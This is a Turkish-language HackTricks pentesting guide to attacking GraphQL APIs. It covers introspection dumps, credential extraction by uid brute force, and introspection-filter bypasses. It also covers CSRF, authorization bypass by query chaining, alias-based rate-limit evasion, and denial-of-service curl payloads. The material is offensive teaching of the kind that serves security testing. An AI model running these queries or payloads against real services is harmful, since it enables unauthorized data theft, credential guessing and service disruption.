

# GraphQL


AWS Hacking'i öğrenin ve pratik yapın:[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)\
GCP Hacking'i öğrenin ve pratik yapın: [**HackTricks Training GCP Red Team Expert (GRTE)**](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>



<figure><figcaption></figcaption></figure>

**Mobil Güvenlik** alanındaki uzmanlığınızı 8kSec Akademisi ile derinleştirin. Kendi hızınıza uygun kurslarımızla iOS ve Android güvenliğini öğrenin ve sertifika kazanın:



## Giriş

GraphQL, arka uçtan veri sorgulamak için **basit bir yaklaşım** sunarak REST API'ye **verimli bir alternatif** olarak **vurgulanmaktadır**. REST'in, verileri toplamak için genellikle çeşitli uç noktalar arasında çok sayıda isteği gerektirmesiyle karşılaştırıldığında, GraphQL, gerekli tüm bilgilerin **tek bir istek** ile alınmasını sağlar. Bu basitleştirme, geliştiricilerin veri alma süreçlerinin karmaşıklığını azaltarak **geliştiricilere önemli ölçüde fayda sağlar**.

## GraphQL ve Güvenlik

Yeni teknolojilerin, GraphQL dahil, ortaya çıkmasıyla birlikte yeni güvenlik açıkları da ortaya çıkmaktadır. Dikkate alınması gereken önemli bir nokta, **GraphQL'in varsayılan olarak kimlik doğrulama mekanizmaları içermemesidir**. Geliştiricilerin bu tür güvenlik önlemlerini uygulama sorumluluğu vardır. Uygun kimlik doğrulama olmadan, GraphQL uç noktaları, kimliği doğrulanmamış kullanıcılara hassas bilgileri açığa çıkarabilir ve bu da önemli bir güvenlik riski oluşturur.

### Dizin Kaba Kuvvet Saldırıları ve GraphQL

Açık GraphQL örneklerini tanımlamak için, dizin kaba kuvvet saldırılarına belirli yolların eklenmesi önerilmektedir. Bu yollar şunlardır:

* `/graphql`
* `/graphiql`
* `/graphql.php`
* `/graphql/console`
* `/api`
* `/api/graphql`
* `/graphql/api`
* `/graphql/graphql`

Açık GraphQL örneklerini tanımlamak, desteklenen sorguların incelenmesine olanak tanır. Bu, uç nokta aracılığıyla erişilebilen verileri anlamak için kritik öneme sahiptir. GraphQL'in içgörü sistemi, bir şemanın desteklediği sorguları detaylandırarak bu süreci kolaylaştırır. Bununla ilgili daha fazla bilgi için, GraphQL'in içgörü belgelerine bakın: [**GraphQL: API'ler için bir sorgu dili.**](https://graphql.org/learn/introspection/)

### Parmak İzi

[**graphw00f**](https://github.com/dolevf/graphw00f) aracı, bir sunucuda hangi GraphQL motorunun kullanıldığını tespit edebilir ve ardından güvenlik denetçisi için bazı yararlı bilgileri yazdırır.

#### Evrensel sorgular <a href="#universal-queries" id="universal-queries"></a>

Bir URL'nin bir GraphQL hizmeti olup olmadığını kontrol etmek için, `query{__typename}` adlı bir **evrensel sorgu** gönderilebilir. Yanıt `{"data": {"__typename": "Query"}}` içeriyorsa, bu URL'nin bir GraphQL uç noktası barındırdığını doğrular. Bu yöntem, sorgulanan nesnenin türünü ortaya koyan GraphQL'in `__typename` alanına dayanır.
```javascript
query{__typename}
```
### Temel Sayım

Graphql genellikle **GET**, **POST** (x-www-form-urlencoded) ve **POST**(json) destekler. Ancak güvenlik açısından CSRF saldırılarını önlemek için yalnızca json'a izin verilmesi önerilir.

#### İçgörü

Şema bilgilerini keşfetmek için içgörü kullanmak için `__schema` alanını sorgulayın. Bu alan, tüm sorguların kök türünde mevcuttur.
```bash
query={__schema{types{name,fields{name}}}}
```
Bu sorgu ile kullanılan tüm türlerin adını bulacaksınız:

.png>)


```bash
query={__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name, kind}}}}}}}
```


Bu sorgu ile tüm türleri, alanlarını ve argümanlarını (ve argümanların türünü) çıkarabilirsiniz. Bu, veritabanını sorgulamak için nasıl bir yol izleyeceğinizi bilmek açısından çok faydalı olacaktır.

.png>)

**Hatalar**

**Hataların** nasıl **gösterileceğini** bilmek ilginçtir çünkü bu, faydalı **bilgilerle** katkıda bulunacaktır.
```
?query={__schema}
?query={}
?query={thisdefinitelydoesnotexist}
```
.png>)

**Veritabanı Şemasını İntrospeksiyon ile Listeleme**


Eğer introspeksiyon etkinse ancak yukarıdaki sorgu çalışmıyorsa, sorgu yapısından `onOperation`, `onFragment` ve `onField` direktiflerini kaldırmayı deneyin.

```bash
#Full introspection query

query IntrospectionQuery {
__schema {
queryType {
name
}
mutationType {
name
}
subscriptionType {
name
}
types {
...FullType
}
directives {
name
description
args {
...InputValue
}
onOperation  #Often needs to be deleted to run query
onFragment   #Often needs to be deleted to run query
onField      #Often needs to be deleted to run query
}
}
}

fragment FullType on __Type {
kind
name
description
fields(includeDeprecated: true) {
name
description
args {
...InputValue
}
type {
...TypeRef
}
isDeprecated
deprecationReason
}
inputFields {
...InputValue
}
interfaces {
...TypeRef
}
enumValues(includeDeprecated: true) {
name
description
isDeprecated
deprecationReason
}
possibleTypes {
...TypeRef
}
}

fragment InputValue on __InputValue {
name
description
type {
...TypeRef
}
defaultValue
}

fragment TypeRef on __Type {
kind
name
ofType {
kind
name
ofType {
kind
name
ofType {
kind
name
}
}
}
}
```
Satır içi içgörü sorgusu:
```
/?query=fragment%20FullType%20on%20Type%20{+%20%20kind+%20%20name+%20%20description+%20%20fields%20{+%20%20%20%20name+%20%20%20%20description+%20%20%20%20args%20{+%20%20%20%20%20%20...InputValue+%20%20%20%20}+%20%20%20%20type%20{+%20%20%20%20%20%20...TypeRef+%20%20%20%20}+%20%20}+%20%20inputFields%20{+%20%20%20%20...InputValue+%20%20}+%20%20interfaces%20{+%20%20%20%20...TypeRef+%20%20}+%20%20enumValues%20{+%20%20%20%20name+%20%20%20%20description+%20%20}+%20%20possibleTypes%20{+%20%20%20%20...TypeRef+%20%20}+}++fragment%20InputValue%20on%20InputValue%20{+%20%20name+%20%20description+%20%20type%20{+%20%20%20%20...TypeRef+%20%20}+%20%20defaultValue+}++fragment%20TypeRef%20on%20Type%20{+%20%20kind+%20%20name+%20%20ofType%20{+%20%20%20%20kind+%20%20%20%20name+%20%20%20%20ofType%20{+%20%20%20%20%20%20kind+%20%20%20%20%20%20name+%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}++query%20IntrospectionQuery%20{+%20%20schema%20{+%20%20%20%20queryType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20mutationType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20types%20{+%20%20%20%20%20%20...FullType+%20%20%20%20}+%20%20%20%20directives%20{+%20%20%20%20%20%20name+%20%20%20%20%20%20description+%20%20%20%20%20%20locations+%20%20%20%20%20%20args%20{+%20%20%20%20%20%20%20%20...InputValue+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}
```
Son kod satırı, graphql'den tüm meta-bilgileri (nesne adları, parametreler, türler...) dökecek bir graphql sorgusudur.

.png>)

Eğer introspection etkinse, tüm seçenekleri bir GUI'de görüntülemek için [**GraphQL Voyager**](https://github.com/APIs-guru/graphql-voyager) kullanabilirsiniz.

### Sorgulama

Artık veritabanında hangi tür bilgilerin saklandığını bildiğimize göre, **bazı değerleri çıkarmayı** deneyelim.

İntrospeksiyon sırasında **hangi nesneyi doğrudan sorgulayabileceğinizi** bulabilirsiniz (çünkü bir nesneyi sadece var olduğu için sorgulayamazsınız). Aşağıdaki görüntüde "_queryType_"'ın "_Query_" olarak adlandırıldığını ve "_Query_" nesnesinin alanlarından birinin "_flags_" olduğunu görebilirsiniz; bu da bir nesne türüdür. Bu nedenle, bayrak nesnesini sorgulayabilirsiniz.


"_flags_" sorgusunun türünün "_Flags_" olduğunu ve bu nesnenin aşağıdaki gibi tanımlandığını unutmayın:

.png>)

"_Flags_" nesnelerinin **isim** ve **değer** ile oluşturulduğunu görebilirsiniz. Ardından, bayrakların tüm isimlerini ve değerlerini şu sorgu ile alabilirsiniz:
```javascript
query={flags{name, value}}
```
Not edin ki **sorgulanacak nesne** bir **ilkel** **tip** ise, örneğin **string** gibi, aşağıdaki örnekteki gibi

.png>)

Bunu sadece şu şekilde sorgulayabilirsiniz:
```javascript
query={hiddenFlags}
```
Başka bir örnekte "_Query_" türü nesnesinin içinde "_user_" ve "_users_" adında 2 nesne vardı.\
Eğer bu nesnelerin arama yapmak için herhangi bir argümana ihtiyacı yoksa, istediğiniz veriyi **sadece** isteyerek **tüm bilgileri alabilirsiniz**. İnternetten bu örnekte, kaydedilmiş kullanıcı adlarını ve şifreleri çıkarabilirsiniz:

.png>)

Ancak, bu örnekte bunu yapmaya çalıştığınızda bu **hata** ile karşılaşırsınız:

.png>)

Görünüşe göre bir şekilde "_**uid**_" argümanını _**Int**_ türü ile kullanarak arama yapacak.\
Her neyse, zaten [Temel Sayım](graphql.md#basic-enumeration) bölümünde, bize gerekli tüm bilgileri gösteren bir sorgunun önerildiğini biliyorduk: `query={__schema{types{name,fields{name, args{name,description,type{name, kind, ofType{name, kind}}}}}}}`

O sorguyu çalıştırdığımda sağlanan resmi okursanız, "_**user**_" nesnesinin _Int_ türünde "**arg**" "_**uid**_" olduğunu göreceksiniz.

Bu nedenle, hafif bir _**uid**_ brute force gerçekleştirerek, _**uid**=**1**_ olduğunda bir kullanıcı adı ve şifre elde ettim:\
`query={user(uid:1){user,password}}`

.png>)

**parametreler** "_**user**_" ve "_**password**_" için istekte bulunabileceğimi **keşfettim** çünkü var olmayan bir şeyi aramaya çalıştığımda (`query={user(uid:1){noExists}}`) bu hatayı alıyorum:

.png>)

Ve **sayım aşaması** sırasında "_**dbuser**_" nesnesinin "_**user**_" ve "_**password**_" alanlarına sahip olduğunu keşfettim.

**Sorgu dizesi dökme hilesi (teşekkürler @BinaryShadow\_)**

Bir dize türü ile arama yapabiliyorsanız, örneğin: `query={theusers(description: ""){username,password}}` ve **boş bir dize** ararsanız, **tüm verileri dökecektir**. (_Bu örneğin, eğitimlerin örneği ile ilgili olmadığını unutmayın, bu örnekte "**theusers**" ile "**description**" adında bir Dize alanı kullanarak arama yapabileceğinizi varsayın_).

### Arama

Bu yapılandırmada, bir **veritabanı** **kişileri** ve **filmleri** içermektedir. **Kişiler**, **e-posta** ve **isim** ile tanımlanır; **filmler** ise **isim** ve **puan** ile tanımlanır. **Kişiler** birbirleriyle arkadaş olabilir ve ayrıca filmlere sahip olabilir, bu da veritabanı içindeki ilişkileri gösterir.

**İsim** ile kişileri **arama** yapabilir ve e-posta adreslerini alabilirsiniz:
```javascript
{
searchPerson(name: "John Doe") {
email
}
}
```
Kişileri **isim** ile **arama** yapabilir ve onların **abone oldukları** **filmleri** alabilirsiniz:
```javascript
{
searchPerson(name: "John Doe") {
email
subscribedMovies {
edges {
node {
name
}
}
}
}
}
```
Not edin ki, kişinin `subscribedMovies`'nin `name`'ini almak için nasıl gösterildiği.

Aynı anda **birden fazla nesne arayabilirsiniz**. Bu durumda, 2 film araması yapılmaktadır:
```javascript
{
searchPerson(subscribedMovies: [{name: "Inception"}, {name: "Rocky"}]) {
name
}
}r
```
Veya **takma adlar kullanarak birkaç farklı nesnenin ilişkileri**:
```javascript
{
johnsMovieList: searchPerson(name: "John Doe") {
subscribedMovies {
edges {
node {
name
}
}
}
}
davidsMovieList: searchPerson(name: "David Smith") {
subscribedMovies {
edges {
node {
name
}
}
}
}
}
```
### Mutations

**Mutasyonlar, sunucu tarafında değişiklik yapmak için kullanılır.**

**İnceleme** bölümünde **belirtilen** **mutasyonları** bulabilirsiniz. Aşağıdaki resimde "_MutationType_" "_Mutation_" olarak adlandırılır ve "_Mutation_" nesnesi mutasyonların isimlerini (bu durumda "_addPerson_" gibi) içerir:

.png>)

Bu yapılandırmada, bir **veritabanı** **kişileri** ve **filmleri** içerir. **Kişiler**, **e-posta** ve **isim** ile tanımlanır; **filmler** ise **isim** ve **puan** ile tanımlanır. **Kişiler** birbirleriyle arkadaş olabilir ve ayrıca filmlere sahip olabilir, bu da veritabanındaki ilişkileri gösterir.

Veritabanında **yeni** filmler **oluşturmak** için bir mutasyon aşağıdaki gibi olabilir (bu örnekte mutasyon `addMovie` olarak adlandırılmıştır):
```javascript
mutation {
addMovie(name: "Jumanji: The Next Level", rating: "6.8/10", releaseYear: 2019) {
movies {
name
rating
}
}
}
```
**Sorguda hem değerlerin hem de veri türünün nasıl belirtildiğine dikkat edin.**

Ayrıca, veritabanı, mevcut **arkadaşlar** ve **filmler** ile birlikte **kişilerin** oluşturulmasına olanak tanıyan `addPerson` adlı bir **mutation** işlemini destekler. Yeni oluşturulan kişiye bağlanmadan önce arkadaşların ve filmlerin veritabanında önceden var olması gerektiğini belirtmek önemlidir.
```javascript
mutation {
addPerson(name: "James Yoe", email: "jy@example.com", friends: [{name: "John Doe"}, {email: "jd@example.com"}], subscribedMovies: [{name: "Rocky"}, {name: "Interstellar"}, {name: "Harry Potter and the Sorcerer's Stone"}]) {
person {
name
email
friends {
edges {
node {
name
email
}
}
}
subscribedMovies {
edges {
node {
name
rating
releaseYear
}
}
}
}
}
}
```
### Yönerge Aşırı Yükleme

Bu raporda açıklanan [**zafiyetlerden birinde**](https://www.landh.tech/blog/20240304-google-hack-50000/) belirtildiği gibi, bir yönerge aşırı yüklemesi, sunucunun DoS olana kadar işlemleri boşa harcaması için bir yönergenin milyonlarca kez çağrılmasını ifade eder.

### 1 API isteğinde toplu brute-force

Bu bilgi [https://lab.wallarm.com/graphql-batching-attack/](https://lab.wallarm.com/graphql-batching-attack/) adresinden alınmıştır.\
GraphQL API üzerinden **farklı kimlik bilgileri ile aynı anda birçok sorgu göndererek** kimlik doğrulama yapılır. Bu klasik bir brute force saldırısıdır, ancak GraphQL toplama özelliği sayesinde bir HTTP isteği başına birden fazla giriş/şifre çifti göndermek mümkündür. Bu yaklaşım, dış hız izleme uygulamalarını her şeyin yolunda olduğu ve şifreleri tahmin etmeye çalışan bir brute-forcing botunun olmadığı konusunda kandırır.

Aşağıda, **aynı anda 3 farklı e-posta/şifre çifti** ile bir uygulama kimlik doğrulama isteğinin en basit gösterimini bulabilirsiniz. Açıkça, aynı şekilde tek bir istekte binlerce göndermek mümkündür:

.png>)

Yanıt ekran görüntüsünden görebileceğimiz gibi, birinci ve üçüncü istekler _null_ döndürdü ve _hata_ bölümünde ilgili bilgileri yansıttı. **İkinci mutasyon doğru kimlik doğrulama** verilerine sahipti ve yanıt doğru kimlik doğrulama oturum belirtecini içeriyordu.

 (1).png>)

## GraphQL İnspeksiyonu Olmadan

Giderek daha fazla **graphql uç noktası inspeksiyonu devre dışı bırakıyor**. Ancak, beklenmedik bir istek alındığında graphql'nin attığı hatalar, [**clairvoyance**](https://github.com/nikitastupin/clairvoyance) gibi araçların şemanın çoğunu yeniden oluşturması için yeterlidir.

Ayrıca, Burp Suite uzantısı [**GraphQuail**](https://github.com/forcesunseen/graphquail) **Burp üzerinden geçen GraphQL API isteklerini gözlemler** ve her yeni sorgu ile birlikte dahili bir GraphQL **şeması** oluşturur. Ayrıca, GraphiQL ve Voyager için şemayı açığa çıkarabilir. Uzantı, bir inspeksiyon sorgusu aldığında sahte bir yanıt döndürür. Sonuç olarak, GraphQuail API içinde kullanılabilir tüm sorguları, argümanları ve alanları gösterir. Daha fazla bilgi için [**bunu kontrol edin**](https://blog.forcesunseen.com/graphql-security-testing-without-a-schema).

[**GraphQL varlıklarını keşfetmek için güzel bir kelime listesi burada bulunabilir**](https://github.com/Escape-Technologies/graphql-wordlist?).

### GraphQL inspeksiyon savunmalarını aşma <a href="#bypassing-graphql-introspection-defences" id="bypassing-graphql-introspection-defences"></a>

API'lerde inspeksiyon sorguları üzerindeki kısıtlamaları aşmak için, `__schema` anahtar kelimesinden sonra **özel bir karakter eklemek** etkili olduğu kanıtlanmıştır. Bu yöntem, inspeksiyonu engellemeyi amaçlayan regex desenlerindeki yaygın geliştirici gözden kaçırmalarını istismar eder. GraphQL'in göz ardı ettiği ancak regex'te hesaba katılmayabilecek **boşluklar, yeni satırlar ve virgüller** gibi karakterler ekleyerek kısıtlamalar aşılabilir. Örneğin, `__schema` sonrasında bir yeni satır içeren bir inspeksiyon sorgusu bu tür savunmaları aşabilir:
```bash
# Example with newline to bypass
{
"query": "query{__schema
{queryType{name}}}"
}
```
Eğer başarısız olursanız, **GET istekleri** veya **`x-www-form-urlencoded` ile POST** gibi alternatif istek yöntemlerini düşünün, çünkü kısıtlamalar yalnızca POST isteklerine uygulanabilir.

### WebSocket'leri Deneyin

[**bu konuşmada**](https://www.youtube.com/watch?v=tIo\_t5uUK50) belirtildiği gibi, graphQL'e WebSocket'ler aracılığıyla bağlanmanın mümkün olup olmadığını kontrol edin, çünkü bu, potansiyel bir WAF'ı atlamanıza ve websocket iletişiminin graphQL şemasını sızdırmasına olanak tanıyabilir.
```javascript
ws = new WebSocket('wss://target/graphql', 'graphql-ws');
ws.onopen = function start(event) {
var GQL_CALL = {
extensions: {},
query: `
{
__schema {
_types {
name
}
}
}`
}

var graphqlMsg = {
type: 'GQL.START',
id: '1',
payload: GQL_CALL,
};
ws.send(JSON.stringify(graphqlMsg));
}
```
### **Açık GraphQL Yapılarını Keşfetme**

İnceleme devre dışı bırakıldığında, önceden yüklenmiş sorguları JavaScript kütüphanelerinde bulmak için web sitesinin kaynak kodunu incelemek faydalı bir stratejidir. Bu sorgular, geliştirici araçlarındaki `Sources` sekmesi kullanılarak bulunabilir ve API'nin şemasına dair bilgiler sunarak potansiyel olarak **açık hassas sorguları** ortaya çıkarabilir. Geliştirici araçlarında arama yapmak için kullanılan komutlar şunlardır:
```javascript
Inspect/Sources/"Search all files"
file:* mutation
file:* query
```
## GraphQL'de CSRF

Eğer CSRF'nin ne olduğunu bilmiyorsanız, aşağıdaki sayfayı okuyun:


[csrf-cross-site-request-forgery.md](../../pentesting-web/csrf-cross-site-request-forgery.md)


Dışarıda, **CSRF token'ları olmadan yapılandırılmış** birkaç GraphQL uç noktası bulabileceksiniz.

GraphQL isteklerinin genellikle **`application/json`** içerik türü kullanılarak POST istekleri aracılığıyla gönderildiğini unutmayın.
```javascript
{"operationName":null,"variables":{},"query":"{\n  user {\n    firstName\n    __typename\n  }\n}\n"}
```
Ancak, çoğu GraphQL uç noktası da **`form-urlencoded` POST isteklerini** destekler:
```javascript
query=%7B%0A++user+%7B%0A++++firstName%0A++++__typename%0A++%7D%0A%7D%0A
```
Bu nedenle, önceki gibi CSRF istekleri **ön uç istekleri olmadan** gönderildiğinden, CSRF'yi kötüye kullanarak GraphQL'de **değişiklikler** **yapmak** **mümkündür**.

Ancak, Chrome'un `samesite` bayrağının yeni varsayılan çerez değeri `Lax` olduğunu unutmayın. Bu, çerezin yalnızca bir üçüncü taraf web'den GET istekleri ile gönderileceği anlamına gelir.

**Sorgu** **isteğini** ayrıca **GET** **isteği olarak göndermek genellikle mümkündür ve CSRF token'ı GET isteğinde doğrulanmayabilir.**

Ayrıca, bir [**XS-Search**](../../pentesting-web/xs-search/) **saldırısını** kötüye kullanarak, kullanıcının kimlik bilgilerini kötüye kullanarak GraphQL uç noktasından içerik sızdırmak mümkün olabilir.

Daha fazla bilgi için **buradaki** [**orijinal gönderiyi kontrol edin**](https://blog.doyensec.com/2021/05/20/graphql-csrf.html).

## GraphQL'de Cross-site WebSocket ele geçirme

GraphQL'i kötüye kullanan CRSF zafiyetlerine benzer şekilde, **korumasız çerezlerle GraphQL ile kimlik doğrulamasını kötüye kullanmak için bir Cross-site WebSocket ele geçirme gerçekleştirmek** ve bir kullanıcının GraphQL'de beklenmedik eylemler gerçekleştirmesini sağlamak da mümkündür.

Daha fazla bilgi için kontrol edin:


[websocket-attacks.md](../../pentesting-web/websocket-attacks.md)


## GraphQL'de Yetkilendirme

Uç noktada tanımlanan birçok GraphQL işlevi, talep edenin kimliğini kontrol edebilir ancak yetkilendirmeyi kontrol etmeyebilir.

Sorgu girdi değişkenlerini değiştirmek, hassas hesap bilgilerini [sızdırabilir](https://hackerone.com/reports/792927).

Mutasyon, diğer hesap verilerini değiştirmeye çalışarak hesap ele geçirmeye bile yol açabilir.
```javascript
{
"operationName":"updateProfile",
"variables":{"username":INJECT,"data":INJECT},
"query":"mutation updateProfile($username: String!,...){updateProfile(username: $username,...){...}}"
}
```
### GraphQL'de Yetkilendirmeyi Aşma

[Query'leri zincirleme](https://s1n1st3r.gitbook.io/theb10g/graphql-query-authentication-bypass-vuln) zayıf bir kimlik doğrulama sistemini aşabilir.

Aşağıdaki örnekte, işlemin "forgotPassword" olduğunu ve bunun yalnızca ona bağlı olan forgotPassword sorgusunu çalıştırması gerektiğini görebilirsiniz. Bu, sonuna bir sorgu ekleyerek aşılabilir; bu durumda "register" ve sistemin yeni bir kullanıcı olarak kaydolması için bir kullanıcı değişkeni ekliyoruz.

<figure><figcaption></figcaption></figure>

## GraphQL'de Takma Adlar Kullanarak Hız Sınırlamalarını Aşma

GraphQL'de, takma adlar, bir API isteği yaparken **özelliklerin açıkça adlandırılmasını** sağlayan güçlü bir özelliktir. Bu yetenek, tek bir istekte **aynı türden birden fazla nesne** almak için özellikle yararlıdır. Takma adlar, GraphQL nesnelerinin aynı isimde birden fazla özelliğe sahip olmasını engelleyen sınırlamayı aşmak için kullanılabilir.

GraphQL takma adları hakkında detaylı bir anlayış için aşağıdaki kaynak önerilmektedir: [Takma Adlar](https://portswigger.net/web-security/graphql/what-is-graphql#aliases).

Takma adların birincil amacı, çok sayıda API çağrısı gereksinimini azaltmak olsa da, takma adların bir GraphQL uç noktasında kaba kuvvet saldırıları gerçekleştirmek için kullanılabileceği beklenmedik bir kullanım durumu tespit edilmiştir. Bu, bazı uç noktaların, **HTTP isteklerinin sayısını** kısıtlayarak kaba kuvvet saldırılarını engellemek için tasarlanmış hız sınırlayıcıları tarafından korunduğu için mümkündür. Ancak, bu hız sınırlayıcıları her istekteki işlem sayısını dikkate almayabilir. Takma adlar, tek bir HTTP isteğinde birden fazla sorgunun dahil edilmesine izin verdiğinden, bu tür hız sınırlama önlemlerini aşabilirler.

Aşağıda sağlanan örneği düşünün; bu, takma adlı sorguların mağaza indirim kodlarının geçerliliğini doğrulamak için nasıl kullanılabileceğini göstermektedir. Bu yöntem, birkaç sorguyu tek bir HTTP isteğine derleyerek hız sınırlamasını aşabilir ve potansiyel olarak birçok indirim kodunun aynı anda doğrulanmasına olanak tanıyabilir.
```bash
# Example of a request utilizing aliased queries to check for valid discount codes
query isValidDiscount($code: Int) {
isvalidDiscount(code:$code){
valid
}
isValidDiscount2:isValidDiscount(code:$code){
valid
}
isValidDiscount3:isValidDiscount(code:$code){
valid
}
}
```
## DoS in GraphQL

### Alias Overloading

**Alias Overloading**, saldırganların aynı alan için birçok takma ad ile bir sorguyu aşırı yüklediği bir GraphQL zayıflığıdır; bu, arka uç çözücünün o alanı tekrar tekrar çalıştırmasına neden olur. Bu, sunucu kaynaklarını aşırı yükleyebilir ve **Hizmet Reddi (DoS)** ile sonuçlanabilir. Örneğin, aşağıdaki sorguda, aynı alan (`expensiveField`) takma adlar kullanılarak 1.000 kez talep edilmektedir; bu, arka ucu 1.000 kez hesaplamaya zorlayarak CPU veya bellek tüketimini artırabilir:


```graphql
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "Content-Type: application/json" \
-d '{"query": "{ alias0:__typename \nalias1:__typename \nalias2:__typename \nalias3:__typename \nalias4:__typename \nalias5:__typename \nalias6:__typename \nalias7:__typename \nalias8:__typename \nalias9:__typename \nalias10:__typename \nalias11:__typename \nalias12:__typename \nalias13:__typename \nalias14:__typename \nalias15:__typename \nalias16:__typename \nalias17:__typename \nalias18:__typename \nalias19:__typename \nalias20:__typename \nalias21:__typename \nalias22:__typename \nalias23:__typename \nalias24:__typename \nalias25:__typename \nalias26:__typename \nalias27:__typename \nalias28:__typename \nalias29:__typename \nalias30:__typename \nalias31:__typename \nalias32:__typename \nalias33:__typename \nalias34:__typename \nalias35:__typename \nalias36:__typename \nalias37:__typename \nalias38:__typename \nalias39:__typename \nalias40:__typename \nalias41:__typename \nalias42:__typename \nalias43:__typename \nalias44:__typename \nalias45:__typename \nalias46:__typename \nalias47:__typename \nalias48:__typename \nalias49:__typename \nalias50:__typename \nalias51:__typename \nalias52:__typename \nalias53:__typename \nalias54:__typename \nalias55:__typename \nalias56:__typename \nalias57:__typename \nalias58:__typename \nalias59:__typename \nalias60:__typename \nalias61:__typename \nalias62:__typename \nalias63:__typename \nalias64:__typename \nalias65:__typename \nalias66:__typename \nalias67:__typename \nalias68:__typename \nalias69:__typename \nalias70:__typename \nalias71:__typename \nalias72:__typename \nalias73:__typename \nalias74:__typename \nalias75:__typename \nalias76:__typename \nalias77:__typename \nalias78:__typename \nalias79:__typename \nalias80:__typename \nalias81:__typename \nalias82:__typename \nalias83:__typename \nalias84:__typename \nalias85:__typename \nalias86:__typename \nalias87:__typename \nalias88:__typename \nalias89:__typename \nalias90:__typename \nalias91:__typename \nalias92:__typename \nalias93:__typename \nalias94:__typename \nalias95:__typename \nalias96:__typename \nalias97:__typename \nalias98:__typename \nalias99:__typename \nalias100:__typename \n }"}' \
'https://example.com/graphql'
```


Bunu hafifletmek için, kaynak istismarını önlemek amacıyla takma ad sayısı limitleri, sorgu karmaşıklığı analizi veya hız sınırlaması uygulayın.

### **Dizi Tabanlı Sorgu Gruplama**

**Dizi Tabanlı Sorgu Gruplama**, bir GraphQL API'sinin tek bir istekte birden fazla sorgunun gruplandırılmasına izin verdiği bir zayıflıktır; bu, bir saldırganın aynı anda çok sayıda sorgu göndermesine olanak tanır. Bu, tüm gruplandırılmış sorguları paralel olarak çalıştırarak arka ucu aşırı yükleyebilir, aşırı kaynak tüketimine (CPU, bellek, veritabanı bağlantıları) neden olabilir ve potansiyel olarak bir **Hizmet Reddi (DoS)** durumuna yol açabilir. Bir gruptaki sorgu sayısı üzerinde bir limit yoksa, bir saldırgan bunu hizmetin kullanılabilirliğini azaltmak için istismar edebilir.


```graphql
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" \
-H "Content-Type: application/json" \
-d '[{"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}]' \
'https://example.com/graphql'
```


Bu örnekte, 10 farklı sorgu tek bir istekte birleştirilerek sunucunun hepsini aynı anda çalıştırması zorlanıyor. Daha büyük bir toplu boyut veya hesaplama açısından pahalı sorgularla istismar edilirse, sunucuyu aşırı yükleyebilir.

### **Yönerge Aşırı Yükleme Açığı**

